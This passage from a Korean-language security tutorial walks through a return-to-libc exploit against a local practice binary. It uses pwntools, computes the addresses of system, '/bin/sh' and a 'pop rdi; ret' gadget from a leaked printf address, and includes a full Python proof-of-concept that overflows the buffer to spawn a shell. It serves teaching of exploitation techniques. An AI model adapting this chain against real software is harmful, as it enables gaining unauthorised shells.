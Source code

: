 ## POC 코드

> 참고/출처 : https://www.lazenca.net/display/TEC/02.RTL%28Return+to+Libc%29+-+x64

printf 주소값을 받은 후 system 함수와 /bin/sh 문자열의 주소값, "pop rdi ; ret" 과의 거리를 계산해서 주소값을 도출해야 하기 때문에 일반적인 쉘 상에서는 익스플로잇 하기가 어렵고, `pwntool` 이라는 파이썬 패키지를 사용해보자. **pwn** 이라는 용어는 소유하다는 뜻의 **own** 에서 파생된 은어로써 권한이 없는 것을 소유해내다 라는 의미이다. 

### pwntool

- [pwntool](https://github.com/Gallopsled/pwntools) : 익스플로잇 코드 개발 전용 라이브러리로써 POC 코드, 익스플로잇 코드를 개발할 때 필수적으로 사용되는 라이브러리이다. 

  - **POC 코드**에 필요한 `pwntool` 의 함수들

    - `process(argv)` : 익스플로잇 대상이 되는 실행파일을 실행하고 프로세스를 다룰 수 있도록 `Processes` 인스턴스를 반환한다. 

    - `recvuntil(delims)` : `delims` 이 나올 때까지 데이터를 받아서 반환한다. 

    - `p64(number)` : `number` 를 `64` 비트 형식으로 패킹(`packing`)한다. 

    - `send(data)` : `data` 를 프로세스에 입력한다. 

23. 이 함수들을 사용해서 익스플로잇을 시도해보자. `recvuntil` 함수로 'printf() address : ' 라는 문자열까지 데이터를 받은 후 '\n' 까지 데이터를 받으면 정확하게 `printf` 함수의 주소값을 반환 받을 수 있다. 

    - `system 함수 주소값 = printf 주소값 + X = A + (-66672)`

    - `"/bin/sh" 주소값 = printf 주소값 + Y = A + 1275223`

    - `"pop rdi ; ret" 주소값 = printf 주소값 + Z = A + (-214782)`

24. 그러면 그 주소값을 활용하여 페이로드를 제작한 후 `send` 함수로 페이로드를 보내서 익스플로잇을 시도한다. 쉘이 실행될 것이 예상되는 시점이기 때문에 `interactive` 함수로 프로세스에 입력 스트림과 출력 스트림을 연다. 

    ```python
    from pwn import *
    
    p = process('./bof11')
    
    p.recvuntil('printf() address : ')
    printf_addr = p.recvuntil('\n')
    printf_addr = int(printf_addr, 16)
    
    sys_addr = printf_addr + (-66672)
    binsh = printf_addr + (1275223)
    poprdi = printf_addr + (-214782)
    distance_to_returnAddr = 24
    
    exploit = "A" * distance_to_returnAddr
    exploit += p64(poprdi)
    exploit += p64(binsh)
    exploit += p64(sys_addr)
    p.send(exploit)
    
    p.interactive()
    ```
    
---
